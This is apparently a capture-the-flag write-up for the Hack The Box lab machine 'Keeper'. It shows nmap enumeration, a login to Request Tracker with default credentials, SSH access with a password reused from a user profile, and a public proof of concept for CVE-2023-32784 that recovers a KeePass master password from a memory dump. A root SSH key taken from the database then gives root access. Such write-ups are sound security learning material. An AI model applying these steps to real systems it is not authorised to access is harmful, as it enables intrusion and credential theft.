# HTB Machine Writeup: Keeper
### By: gnos1s

### Machine Difficulty: Easy
### Machine Release Date: 12 August 2023
### Operating System: Linux

## Enumeration

We start off with our Nmap scan:

```
$ nmap -sC -sV 10.10.11.227
Nmap scan report for 10.10.11.227
Host is up (0.20s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE    SERVICE VERSION
17/tcp   filtered qotd
22/tcp   open     ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp   open     http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
255/tcp  filtered unknown
5101/tcp filtered admdog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

We see ports 22 and 80 open. Some other weird ports are also active, but filtered. Maybe we'll be able to poke into them later in the box. Let's visit the webpage at port 80 first.

Upon visiting the webpage, we find a blank page with a link to tickets.keeper.htb:


Let's add this to our hosts file:

```
$ echo "10.10.11.227 tickets.keeper.htb keeper.htb" >> /etc/hosts
```

Now, we can view the site at tickets.keeper.htb. The site seems to be a ticket manager and requires login:



We can see that the application is running Best Practical Request Tracker. My first instinct here is to look for default credentials.

With some googling we find that the default credentials for this app are root:password. Let's try using that to log in:



We see a lot of options at the top. Search, Reports, etc. There could be exploits hiding in every single one of those. Let's skim through all of them first.

In the Admin -> Users page, we can see that there are two users: lnorgaard and root. We can click on lnorgaard to view his information:



We see that the initial password for this user is set to Welcome2023!. We try logging in via SSH and it works!

```
$ ssh lnorgaard@10.10.11.227
lnorgaard@10.10.11.227's password:
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

<snip>

You have mail.
Last login: Sun Aug 13 15:26:08 2023 from 10.10.16.35
lnorgaard@keeper:~$
```

That feels a litle too easy. I wonder if this path is unintended. Anyways, let's work on root now.

## Privilege Escalation

Immediately when we run 'ls' on the current directory, we find a file named RT30000.zip:

```
lnorgaard@keeper:~$ ls
RT30000.zip  user.txt
```

Let's unzip this file and see what's inside:

```
lnorgaard@keeper:~$ unzip RT30000.zip
Archive:  RT30000.zip
replace KeePassDumpFull.dmp? [y]es, [n]o, [A]ll, [N]one, [r]ename: y
  inflating: KeePassDumpFull.dmp
replace passcodes.kdbx? [y]es, [n]o, [A]ll, [N]one, [r]ename: y
 extracting: passcodes.kdbx
```

We get two files, KeePassDumpFull.dmp and passcodes.kdbx. I already know that the dump file is from the memory of the process.

After doing some research on the .kdbx file, I find it's a KeePass database file. We need a master password or master key to unlock it.

I try opening the .kdbx file using a software named MacPass and I'm right, we need a master password.



The password to log in as lnorgaard doesn't work, so my intuition says that we need to extract a key or password from the dump file.

Searching for KeePass vulnerabilities that allow us to extract data, we find CVE-2023-32784. The CVE description says:

In KeePass 2.x before 2.54, it is possible to recover the cleartext master password from a memory dump, even when a workspace is locked or no longer running. The memory dump can be a KeePass process dump, swap file (pagefile.sys), hibernation file (hiberfil.sys), or RAM dump of the entire system. The first character cannot be recovered. In 2.54, there is different API usage and/or random string insertion for mitigation.

This is exactly what we need! I'm going to find a POC for this exploit and try it out.
First, we clone a POC to our machine:

```
$ git clone https://github.com/vdohney/keepass-password-dumper.git
```

We also copy the dump file to our machine. Now, we're going to run the exploit:

```
$ cd keepass-password-dumper
$ dotnet run ../KeePassDumpFull.dmp
Found: ●●d
Found: ●●d
Found: ●●d

<snip>

Found: ●A
Found: ●I
Found: ●:
Found: ●=
Found: ●_
Found: ●c
Found: ●M

Password candidates (character positions):
Unknown characters are displayed as "●"
1.:	●
2.:	,, l, `, -, ', ], A, I, :, =, _, c, M,
3.:	d,
4.:	g,
5.:	r,
6.:	●
7.:	d,
8.:	 ,
9.:	m,
10.:	e,
11.:	d,
12.:	 ,
13.:	f,
14.:	l,
15.:	●
16.:	d,
17.:	e,
Combined: ●{,, l, `, -, ', ], A, I, :, =, _, c, M}dgr●d med fl●de
```

We almost managed to extract the entire password. But there are a few characters missing. My first thought here was to bruteforce the missing characters, but let's think this through.

If the tool failed to extract the full master password, either:
- The creator of the machine changed the memory dump on purpose to prevent us from reading the entire password.
- The unknown characters are special characters and the tool can't find them.

To prove that #2 is correct, we can look back to our enumeration. One of the users has a Danish name:



This means that there is a high chance the password contains special characters too. Let's do some searching to see if we can just form the password together.

We do a google search leaving those blanks as unknown characters:



Did you mean: <>rodgrod med flode

Interesting...


Ha! The creator probably decided to use a famous dish as his password. Let's try it.

Rødgrød med fløde doesn't work, but rødgrød med fløde allows us to access the database!



We can now see the root password. But when we try to log in, it doesn't work:

```
$ ssh root@10.10.11.227
root@10.10.11.227's password:
Permission denied, please try again.
root@10.10.11.227's password:
Permission denied, please try again.
root@10.10.11.227's password:
root@10.10.11.227: Permission denied (publickey,password).
```

Let's see what else we can find from the databae. In the Notes section, there is also a PUTTY ssh key. Let's try using that to log in instead.



We can convert this key to a private key using PuTTYgen. 
First, we load in the key using File -> Load private key:



Next, we export the private key using Customize -> Export OpenSSH key:



Now, we get a SSH private key that we can use to log in.



We use this key to log in as root and it works!

```
$ chmod 600 sshkey
$ ssh -i sshkey root@10.10.11.227
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# 
```

We can now read root.txt!